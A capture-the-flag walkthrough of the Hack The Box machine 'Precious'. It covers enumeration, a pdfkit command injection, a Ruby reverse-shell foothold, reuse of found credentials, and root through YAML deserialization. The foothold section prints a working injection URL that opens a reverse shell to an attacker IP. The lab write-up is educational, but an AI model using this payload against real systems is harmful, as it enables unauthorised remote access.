 ```yaml
---
title: "[HTB] Machine: Precious"
description: "[HTB] Machine: Precious"
menu:
  sidebar:
    name: "[HTB] Machine: Precious"
    identifier: htb-machine-precious
    parent: htb-machines-linux
    weight: 10
hero: images/precious.png
tags: ["HTB"]
---
```


# Precious
## Enumeration
- ```Nmap```
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```

![](./images/1.png)

- It's a service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it

![](./images/2.png)

- We see the package and it's version
  - After a little bit of googling

![](./images/3.png)

- Let's test it

![](./images/4.png)

- I set up ```tcpdump``` to listen to ICMP
  - Success

![](./images/5.png)

- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)

![](./images/6.png)

```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - And We get a reverse shell

![](./images/7.png)

- Now we need to privesc
  - After running the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```

![](./images/8.png)

- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result

![](./images/9.png)

- Let's check the file
  - According to the comments, the script loads the list of dependencies from the ```dependencies.yaml``` and compares them to the ones already installed
  
![](./images/10.png)

- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

![](./images/11.png)

- Check the version

![](./images/12.png)

- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` file in the directory where we execute the command
  - So we can create ```dependencies.yaml``` anywhere where we have the privileges to do so
  - Copy the payload from the links above

![](./images/13.png)

- Run the command
  - And we get our flag

![](./images/14.png)
